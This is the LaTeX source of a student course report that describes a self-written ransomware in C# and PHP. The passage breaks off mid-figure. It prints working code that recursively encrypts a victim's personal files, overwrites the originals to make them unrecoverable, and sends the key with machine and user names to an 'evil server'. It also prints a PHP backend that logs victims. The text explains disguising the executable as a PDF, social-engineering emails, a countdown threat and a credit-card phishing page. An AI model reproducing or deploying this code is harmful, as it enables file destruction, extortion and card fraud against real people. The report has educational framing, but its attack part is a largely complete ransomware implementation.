% The following makes latex use nicer postscript fonts.

\documentclass[a4paper,10pt]{report}

\usepackage[a4paper]{geometry}
\usepackage[english]{babel}
\usepackage{lmodern}
\usepackage{amssymb,amsmath}
\usepackage[T1]{fontenc}
%\usepackage[utf8]{inputenc}
\usepackage{microtype}
\usepackage{longtable,booktabs}
\usepackage[unicode=true]{hyperref}
\usepackage{graphicx}
\usepackage[space]{grffile}
\usepackage{lscape}
\usepackage{listings}
\usepackage{tabularx}
\usepackage{vubtitlepage}
\usepackage{tikz,pgfplots}
\usepackage{mathtools}
\usepackage{caption}
\usepackage{apacite}
\usepackage{subfig}
\usepackage{siunitx}
\usepackage{pgfplots} 
\usepackage{pgfplotstable}
\usepackage[round]{natbib}
\usepackage[titletoc,title]{appendix}
\usepackage[section]{placeins}
\usepackage{float}
\usepackage{xr}
\usepackage{adjustbox}
\newcommand{\argmax}[1]{\underset{#1}{\operatorname{arg}\,\operatorname{max}}\;}
\usepackage{array}
\usepackage{multirow}
\usepackage{tabu}

\newlength \myWidth
\setlength\myWidth {100mm}

\newcommand\MyBox[2]{
  \fbox{\lower0.75cm
    \vbox to 1.7cm{\vfil
      \hbox to 1.7cm{\hfil\parbox{1.4cm}{#1\\#2}\hfil}
      \vfil}%
  }%
}
\setlength{\parindent}{0em}

\lstset{language=Python
,basicstyle=\footnotesize,breaklines=true} 


\author{Yannick Merckx}
\title{Security: Randsomeware}

\promotortitle{Promotor}
\promotor{Prof. dr. Martin Timmerman}
\promotortitle{Tutor}
\advisors{Long Peng}
\advisortitle{Advisor}
\faculty{Faculty of Science}
\department{Departement of Computer Science}
\reason{Operation Systems and Security (OSSEC)}
\date{Januari 2016}
\rolenumber{Student number: 500294}
          
\begin{document}

% First dutch TitlePage
\maketitlepage
\setlength{\arrayrulewidth}{0.1mm}


\lstset{language=Python}          % Set your language (you can change the language for each code-block optionally)

\renewcommand{\arraystretch}{1.2}

\newcommand{\image}[3]{
\begin{figure}[H]
    \centering 
    \includegraphics[height=7cm]{#1}
    \caption{#3}
    \label{fig:#2}
\end{figure}}
\newpage

\begin{abstract}


We implement a self-written fully working ransomeware, which includes all the steps from tricking the victim till the decryption project. This malware is implemented in assignment of of the course Operation Systems and Security (OSSEC) and is fully described in this document. After reading this document the reader should have a clear understanding of ransomeware, be able to fully comprehend the code of the ransomeware and should even be able to implement it by himself.   
\end{abstract}


\renewcommand{\contentsname}{Contents}
\tableofcontents

\include{sections/introduction}

\chapter{Ransomeware}\label{Ransomeware}

In this chapter we talk about the theoretical background of ransomeware.
In section \ref{Definition} we see the needed terminology to have a full understanding of the project.
Next we dig deeper in ransomeware and look at the main components of the malware. In the last section we study the evolution of ransomeware throughout the years.


\section{Definition}\label{Definition}

In this section we talk about the basic definitions to get a full understanding of the project
\subsection{Malware}

Malware is the short term for `malicious software', which refers to the software programs, who are designed to damage or do other unwanted actions on a computer system \cite{malware}. We have all kinds of malware for example: viruses, worms, trojan horses, and spyware. For this project we are focussing on another type of malware namely, ransomeware.

\subsection{Ransomeware}

Ransomeware is a type of malware, which hijacks the files on the infected computer by encryption all the files. The only way the ransomeware will decrypt the files, is when the victim pays the asked ransom money. The strength of the encryption and asked ransom money vary, but as we will see in the next section, every ransomeware has the same general pattern. They only differ in the tweaks they apply in those main components. What exactly these tweaks in those main components are, how they differ from each other and how they evolve over time, we will see in section \ref{History of Generations}, where we take a closer look at the different generations of ransomeware.


\section{Workflow}\label{workflow}

In this section we take a closer look at the workflow of the ransomeware. In every type of ransomeware we find the same workflow. Every ransomware starts with the search for a victim. After finding a victim it has to look for a weak spot, what makes it possible to install the ransomeware. When the weak spot is found, the ransomware install itself and hijacks the files of the victim by encryption. After the completion of the installation the ransomeware notifies the victim and asks for ransom money. Only when the ransom is paid, the ransomeware will decrypt the files of the victim.

In the next subsections we talk about each step of the workflow in greater detail.

\subsection{The search for a victim}\label{search}

The first step you need to do, when a criminal wants to use ransomeware is finding a victim. Nowadays with the internet is this very. A criminal can get in touch in a variatie of ways.

\subsubsection{E-mail}

The popular way is by email. Most of the time criminals craft an email with social engineering techniques, which causes the victim to open the attachment in the email. This attachments seems harmless for the victim but is in reality the ransomeware, which immediately infects the victim's computer when opened.


\begin{figure}[H]
    \centering 
    
\includegraphics[height=7cm]{example_ransomemail}
    % \caption{An example of a specially crafted email by a criminal, which causes the reader to open the attachment.
    \caption[]{An example of a specially crafted email by a criminal, which causes the reader to open the attachment.\protect\footnotemark}
    \label{ransomemail}
\end{figure}
\footnotetext{Source: http://i1-news.softpedia-static.com/images/news2/Users-in-the-US-Targeted-with-Ransomware-Via-Tax-Return-Flavored-Emails-478465-2.jpg}

\subsubsection{Removable Device}

Another methode is a removable device. This can be a USB-stick, CD or even a mobile phone. The device can be plugged in by the criminal himself and he let lying around intentionally some removable devices in the hope the finder would connect it with the computer.

In the next section we talk step namely finding a way to trick the victim.

\subsection{Tricking the victim}

As we said in in \ref{search} can way reach a victim in a variatie of ways. But reaching the victim is not enough. The ransomeware has still to execute.

If we reach for example of the email in \ref{search}. The user cannot have any clue that the attachment is malicious and the ransomeware needs still to execute when opened. A possible trick is \textbf{the Right to left notation}.
\subsubsection{Right to left notation}

the Right to left notation is a trick which makes use of a special character, what causes everything behind it to inverse.

\subsection{Compromising the victim's machine}\label{Compromising}

Encryption
\subsection{Notifying the victim}\label{notify}


\subsection{decryption}\label{decryption}



\section{History of Generations}\label{History of Generations}
\begingroup
\chapter{Creation of the Ransomeware}\label{Creation of the Ransomeware}

Now that we have a clear understanding of  what ransomeware exactly is, we can explain the self-created ransomeware. The ransomeware we created is based on the most recent encountered ransomware, for example CTBlocker and Cryptolocker and is written in C#. Summarized the ransomeware persuades the victim in opening the ransomeware, encrypts all the personal files, sends the encryption key to the evil server and notifies the victim. After paying the ransom and following the instructions, the victim can download the decryption software and decrypts his files. There is one small twits in this whole workflow. Normally the ransomware would ask for Bitcoins, but because we couldn't obtain a api-key to work with bitcoin wallets, we implemented an alternative, namely a phishing website for credit cards. So the final goal of our ransomeware is not to obtain money but credit card numbers. This is maybe divergent from other ransomware but it gives us the opportunity the fully simulate the process.



\section{Tricking The Victim}

An important thing to think about, when creating your ransomware is the method of tricking the victim. For our ransomware we chose to disguise it as a pdf. We already mentioned in \ref{theorie_trick} it is easy trick to change the icon of the executable and give it an name with \textit{.pdf} at the end. If the user's security settings are on default the user will only see the pdf at the end and not the \textit{.exe} extension.

If we combine this trick with a social engineered email, we have a big chance an ignorant user opens the attachment, which is the disguised ransomeware.

\\afbeelding van adobe

\section{Encryption of the files}

After we tricked the victim is the next step the encryption. We need to find files, encrypt them and send the encryption key to the server.

\subsection{Finding the Personal Files}\label{Finding the files}

The files we want to encrypt need to be valuable to the victim. So we orient our encryption algorithm on the User directory, where most users save there personal files. Also important to mention is that cloud services like dropbox or google drive have on default there sync folders in the user directory, which makes it also interesting. While we parsing through the folders of the user directory, we don't encrypt everything. We only encrypt the files that are possible valuable, files with extension like doc, png, pdf, xlx, outlook etc. This choice makes our ransomeware faster and more effective.   


\begin{lstlisting}[frame=single, showstringspaces=false] 
  
  //encrypts target directory
        public void encryptDirectory(string location, string password)
        {
            
   
            
            //extensions to be encrypt
            var validExtensions = new[]
            {
                ".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd",".mp3"
            };

            string[] files = Directory.GetFiles(location);
            string[] childDirectories = Directory.GetDirectories(location);
            for (int i = 0; i < files.Length; i++){
                string extension = Path.GetExtension(files[i]);
                if (validExtensions.Contains(extension))
                {
                    EncryptFile(files[i],password);
                }
            }
            for (int i = 0; i < childDirectories.Length; i++){
                encryptDirectory(childDirectories[i],password);
            }
            
            
        }

\end{lstlisting}

\subsection{Encrypting the files}

After finding the files, the next step is the encryption. As a ransomeware-writer our goal is to make the files of the victim unrecoverable till the victim pays. For our ransomeware we used  the same tactic as most recent ransomeware, namely using the public availably encryption libraries.\\

We used the System.Security.Cryptography Namespace from the .NET framework. From this library we used the encryption algorithm Advanced Encryption Standard (AES) with a key size of 258 bits and Cipher block chaining as mode. This choice is well-considered. AES is a symmetric-key algorithm, which make it possible to encrypt a lot of data very fast. This is not the case with an asymmetric encryption algorithm, which is slower on big amounts of data. The key size of 258 bits makes it impossible the crack the key with current computers. And at last is the Cipher block chaining also an import setting. It makes partial recovery and recovery after modifying the files impossible.

\begin{lstlisting}[frame=single, showstringspaces=false] 
  

        //AES encryption algorithm
        public byte[] AES_Encrypt(byte[] bytesToBeEncrypted, byte[] passwordBytes)
        {
            byte[] encryptedBytes = null;
            byte[] saltBytes = new byte[] { 5, 8, 10, 78, 90, 56, 7, 8 };
            using (MemoryStream ms = new MemoryStream())
            {
                using (RijndaelManaged AES = new RijndaelManaged())
                {
                    AES.KeySize = 256;
                    AES.BlockSize = 128;

                    var key = new Rfc2898DeriveBytes(passwordBytes, saltBytes, 1000);
                    AES.Key = key.GetBytes(AES.KeySize / 8);
                    AES.IV = key.GetBytes(AES.BlockSize / 8);

                    AES.Mode = CipherMode.CBC;

                    using (var cs = new CryptoStream(ms, AES.CreateEncryptor(), CryptoStreamMode.Write))
                    {
                        cs.Write(bytesToBeEncrypted, 0, bytesToBeEncrypted.Length);
                        cs.Close();
                    }
                    encryptedBytes = ms.ToArray();
                }
            }



\end{lstlisting}

An important thing to notice is during the key generation of AES we use \textit{Rfc2898DeriveBytes}, a password-based key derivation functionality, which uses a given password to generate the 258-bit key. This makes that we can generate a more readable password and use this to share with the user to decrypt. Although we need to pre-attention how we compose this readable password. We use for the random generator a random generated UUID as seed. This is because the default seed of the random generator is the system uptime, which makes that our more readable password is crackable and so our ransomeware.

\begin{lstlisting}[frame=single, showstringspaces=false] 

        //creates random password for encryption
        public string CreatePassword(int length)
        {
            const string valid = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890*!=&?&/";
            StringBuilder res = new StringBuilder();
            
            //avoiding the same seed with random guid generation
            Random rnd = new Random(Guid.NewGuid().GetHashCode());
            while (0 < length--){
                res.Append(valid[rnd.Next(valid.Length)]);
            }
            return res.ToString();
        }

\end{lstlisting}

\subsection{Making the files unrecoverable}

After the encryption of a file we take the necessary precautions to make the files completely unrecoverable. We use a fourth-phase deletion technique, where we first overwrite the bytes of the original file with zeroes. Next we overwrite it again with random numbers and then again with zeroes. At last we overwrite the bytes with the encrypted files. 

\begin{lstlisting}[frame=single, showstringspaces=false] 

        //Encrypts single file
        public void EncryptFile(string file, string password)
        {
             
            byte[] bytesToBeEncrypted = File.ReadAllBytes(file);
            
            int filesize = bytesToBeEncrypted.Length;
            
            //Create bytearray with zeros
            byte[] zeroes = new byte[filesize];
            
            //Create bytearray with random numbers
            Random rnd = new Random();
            byte[] randoms = new Byte[filesize];
            rnd.NextBytes(randoms);
            
            byte[] passwordBytes = Encoding.UTF8.GetBytes(password);
            // Hash the password with SHA256
            passwordBytes = SHA256.Create().ComputeHash(passwordBytes);
            
            byte[] bytesEncrypted = AES_Encrypt(bytesToBeEncrypted, passwordBytes);
            
            //first phase: overwrite with zeroes
            File.WriteAllBytes(file, zeroes);
            //second phase: overwrite with randoms
            File.WriteAllBytes(file, randoms);
            //third phase: overwrite with zeroes
            File.WriteAllBytes(file, zeroes);
            //fourth phase: overwrite file with encrypted data
            File.WriteAllBytes(file, bytesEncrypted);
            System.IO.File.Move(file, file+".Qwfsdfjio");
            
            list_with_encrypted_files.Add(file);

        }

\end{lstlisting}




\subsection{Communication with the Evil server}

After finishing the encryption of the files we send the password used for the encryption to the evil server. Of course we do need to take the necessary precautions. We can not send the password in plaintext. Possible risk are in-memory recovery or interception of the password. All these things we want to avoid and this is why we encrypt this password with RSA. RSA is a asymmetric encryption algorithm and is commonly used to encrypt traffic between a client and a server. The public key is hard coded in the source code of ransomeware, which is no problem because our encryption is asymmetrical and the private key is safely stored on the server.


\begin{lstlisting}[frame=single, showstringspaces=false] 

         public static string EncryptPassword(string password)
        {
            string ServerPubKeyOutput = "-----BEGIN PUBLIC KEY-----MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDbv/DGt9yCE8F93pcZatx/Uuef7m/ztRSrrS2p99Fl554/7XzGmktS3ArxyZOaz0rdhkdaZxzvZ6g8Ip0uBzTDcI5heVz3Ek0aCxIAiFZh/ScrtjIXg+JERty9cYZ6aBhMWn9tXEWWMOzYlumT6MpAdE8fzr1DTQqKpoSL0aDrAwIDAQAB-----END PUBLIC KEY-----";
           
            string ServerPubKey = Javascience.opensslkey.DecodePEMKey(ServerPubKeyOutput);

            RSACryptoServiceProvider ServerRSA = new RSACryptoServiceProvider();
            ServerRSA.FromXmlString(ServerPubKey);
            string SecretPassword = Uri.EscapeDataString(Convert.ToBase64String(RSAEncrypt(Encoding.UTF8.GetBytes(password), ServerRSA.ExportParameters(false))));
            
            return SecretPassword;

        }
        

        //Sends created password target location
        public void SendPassword(string password){
            
            string Encryptedpassword = EncryptPassword(password);
            string info = UUID + "|" + computerName + "|" + userName + "|" + Encryptedpassword;
            var fullUrl = targetURL + info;
            var conent = new System.Net.WebClient().DownloadString(fullUrl);
        }

\end{lstlisting}

The sent password gets stored in a SQL-database together with the Computername, Username and UUID. We use the UUID as primary key. The backend is written in PHP.
For easy-reading during the development and testing we also wrote all the information to a hidden txt-file in human readable format.

 \begin{lstlisting}[frame=single, showstringspaces=false] 

<!DOCTYPE html>
<html>
<body>

<?php
ini_set( 'error_reporting', E_ALL );
ini_set( 'display_errors', true );
set_include_path(get_include_path() . PATH_SEPARATOR . 'phpseclib');
include('phpseclib/Crypt/RSA_XML.php');

function addVictim($UUID,$computername, $username, $password) {

    $servername = "localhost";
    $db_username =  "root";
    $db_password =  "root";
    $name =  "evilvault";


    $computername = htmlspecialchars($computername, ENT_QUOTES);
    $username = htmlspecialchars($username, ENT_QUOTES);


    // Create connection
    $conn = new mysqli($servername, $db_username, $db_password, $name);
    // Check connection
    if ($conn->connect_error) {
        die("Connection failed: " . $conn->connect_error);
    } 

    $sql = "INSERT INTO victims (UUID, ComputerName, Username, Password, Payment)
    VALUES ('".$UUID."',  
            '".$computername."',  
            '".$username."',  
            '".$password."',
            0
            )";

    if ($conn->query($sql) === TRUE) {
        echo "New record created successfully";
    } else {
        echo "Error: " . $sql . "<br>" . $conn->error;
    }

    $conn->close();
    }


function decrypt($data)
    {
        $rsaserver = new Crypt_RSA_XML();
        $myfile = fopen("privatekey.xml", "r") or die("Unable to open file!");
        $privatekey = fread($myfile,filesize("privatekey.xml"));
        $rsaserver->loadKey($privatekey);
        $result = $rsaserver->decrypt(base64_decode($data));
        return $result;
    }

$myFile = "victims.txt";

$info = $_GET['info'];
list($UUID, $computername, $username, $password) = (explode("|", $info));
$decrypted_password = decrypt($password); 
$message =  "UUID: " . $UUID . "\n" . "Computername: " . $computername . "\n" . "Username: " . $username . "\n" . "Password: " . $decrypted_password . "\n---------------------------------\n";
addVictim($UUID,$computername, $username, $password);
$fh = fopen($myFile, 'a');
fwrite($fh, $message."\n");
fclose($fh);
?>


</body>
</html>

\end{lstlisting}


\section{Notifying the victim}\label{Notifying the victim}

After successfully encrypting the files, we need to notify the user he has been compromised. We do this in different ways.

First we change the background and show a threatening message. This is very effective because the first thing a user sees is his desktop. So we are sure he receives the message.

\begin{figure}[H]
    \centering 
    
\includegraphics[height=7cm]{lockscreen}
    \caption{The showed background of the ransomeware,when the encryption is complete}
    \label{lockscreen}
\end{figure}

Next we put files on the victim's desktop. One file is with instruction how to pay the ransom and the instructions for decryption and another file is a list with all the encrypted files.

\begin{figure}[H]
    \centering 
    
\includegraphics[height=7cm]{instructions}
    \caption{The instructions given by our ransomeware}
    \label{instructions}
\end{figure}

At last we show a countdown with the threat of deleting the decryption key, when the countdown is finished. This puts the user under more pressure and possible motivates for faster payment.
We implemented the countdown time purely as threat, in reality the key will not be deleted. With most of the current ransomeware we see the same behavior, where the countdown is mostly just a threat.

\begin{figure}[H]
    \centering 
    
\includegraphics[height=7cm]{countdown}
    \caption{Screenshot of the countdown timer}
    \label{instructions}
\end{figure}


\section{Decryption process}

Like we already said in the beginning of this chapter, we didn't implemented a real payment component because of the lack of an api-key for a valid payment system. This is why we gave our ransomeware a little twist and made phishing credit card numbers. Because the victim wants desperately his files back, there is still a chance some victims will fill in there credit card number on the phishing site in the hope to get there files back. The biggest advantage is off course that we could fully implement the workflow of our ransomware and make it fully operational.

\begin{figure}[H]
    \centering 
    \includegraphics[height=7cm]{payment}
    \caption{The phishing page of our ransomeware}
    \label{instructions}
\end{figure}


After this is done, the victim can go to a webpage and use his UUID to identify himself and receive the decryption software with the decryption key.
If he didn't pay his ransom the victim gets a message his ransom is still not paid.

\begin{figure}[H]
    \centering 
